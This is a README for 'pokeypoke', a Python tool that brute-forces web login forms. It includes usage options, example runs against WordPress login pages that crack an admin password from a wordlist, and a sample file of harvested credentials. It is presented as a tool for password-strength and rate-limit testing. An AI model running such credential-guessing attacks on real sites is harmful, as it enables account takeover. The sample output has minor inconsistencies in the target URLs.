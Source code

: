 # pokeypoke
### Brute force penetration tester

PokeyPoke is a simple threaded login form brute forcer written in Python 3.  The interface supports flexible form input names and should function for any non-captcha'd login forms which use CSRF or other similar hidden field authentication.  This tool is especially effective in testing group password strengths and the efficacy of brute-force prevention plugins or methodologies, such as IP-based ratelimiting and etc.

NOTE: This tool is only as effective as the password list used.  Various lists are available from security services which provide granular targeting based on the installation (WordPress, Joomla, etc) and are compiled into top N (100, 1000, 100000, etc) lists for rapid checking of the most commonly found passwords.

### Usage
```
usage: pokeypoke.py [-h] [-m MAX_THREADS] -w WORD_LIST -t
                    [TARGET [TARGET ...]] [-v] [-C] [-u UNAME_FIELD]
                    [-p PASSWD_FIELD] [-r RESUME]
                    [-s [SUCCESS_STR [SUCCESS_STR ...]]]
                    [-U [USERNAME [USERNAME ...]]] [-o OUTFILE] [--wp]
                    [--joomla]

optional arguments:
  -h, --help            show this help message and exit
  -m MAX_THREADS, --max-threads MAX_THREADS
                        Maximum concurrent worker threads
  -w WORD_LIST, --word-list WORD_LIST
                        Path to word list
  -t [TARGET [TARGET ...]], --target [TARGET [TARGET ...]]
                        Target URL(s)
  -v, --verbose         Enable verbose output
  -C, --nocolor         Suppress colors in output
  -u UNAME_FIELD, --uname-field UNAME_FIELD
                        Login form username field name
  -p PASSWD_FIELD, --passwd-field PASSWD_FIELD
                        Login form password field name
  -r RESUME, --resume RESUME
                        Resume from a certain word (for termed attempts)
  -s [SUCCESS_STR [SUCCESS_STR ...]], --success-str [SUCCESS_STR [SUCCESS_STR ...]]
                        Successful login identifier string(s)
  -U [USERNAME [USERNAME ...]], --username [USERNAME [USERNAME ...]]
                        Login username(s) to attempt
  -o OUTFILE, --outfile OUTFILE
                        Discovered credential output
  --wp                  Use WordPress form element names
  --joomla              Use Joomla form element names
```
--target & --word-list are required when executing via the command line.  When seeking WordPress or Joomla targets, use the --wp or --joomla flags, which set appropriate login form element names and success strings.
```
# python pokeypoke.py --word-list ../.lists/10million.txt --target https://test.us/wp-login.php --username admin -v --wp
[*] PokeyPoke v0.1a (Development Version)
[*] Argument Summary
 -  Target(s)           : https://test.us/wp-login.php
 -  Max Threads         : 5
 -  Word List           : ../.lists/10million.txt
 -  Username Field      : log
 -  Password Field      : pwd
 -  Resume On           : None
 -  Success String(s)   : Logged In, Welcome to your WordPress Dashboard!
 -  Verbose             : True
 -  No Color            : False
 -  Username(s)         : admin
 -  Output File         : creds.20170718-173742.txt
 -  WordPress           : True
 -  Joomla              : False
 -  Seeking target: https://pokeybill.us/btester/wp-login.php
 -  Found 1000000 words
 -  Trying 123456, 999999 words remain
 -  Trying password, 999998 words remain
 -  Trying 12345678, 999997 words remain
 -  Trying qwerty, 999996 words remain
 -  Trying 123456789, 999995 words remain
 -  Trying 12345, 999994 words remain
 -  Trying 1234, 999993 words remain
 -  Trying 111111, 999992 words remain
 -  Trying 1234567, 999991 words remain
 -  Trying dragon, 999990 words remain
 -  Trying 123123, 999989 words remain
 -  Trying baseball, 999988 words remain
 -  Trying abc123, 999987 words remain
 -  Trying football, 999986 words remain
 -  Trying monkey, 999985 words remain
 -  Logged in: Welcome to your WordPress Dashboard!
[!] Target: https://test.us/wp-login.php :: Password for admin: dragon
 -  Writing output to creds.20170718-173742.txt
[*] Completed
```
The --target, --username, and --success-str options each support multiple space-delimited arguments.
```
# python pokeypoke.py --word-list ../.lists/10million.txt --target https://test.us/wp-login.php https://test1.us/wp-login.php --username admin user otheruser -v --wp --success-str 'Welcome, Admin!' 'Welcome, Bill!'
[*] PokeyPoke v0.1a (Development Version)
[*] Argument Summary
 -  Target(s)           : hhttps://test.us/wp-login.php, https://test1.us/wp-login.php
 -  Max Threads         : 5
 -  Word List           : ../.lists/10million.txt
 -  Username Field      : log
 -  Password Field      : pwd
 -  Resume On           : None
 -  Success String(s)   : Welcome, Admin!, Welcome, Bill!, Welcome to your WordPress Dashboard!
 -  Verbose             : True
 -  No Color            : False
 -  Username(s)         : admin, user, otheruser
 -  Output File         : creds.20170718-174346.txt
 -  WordPress           : True
 -  Joomla              : False
 -  Seeking target: https://test.us/wp-login.php
...
```
Consecutive target hits are each appended to the result file, one entry per line.
```
# cat creds.20170718-173742.txt 
https://test.us/wp-login.php:username=admin:password=dragon
https://test1.us/wp-login.php:username=user:password=1234567
```
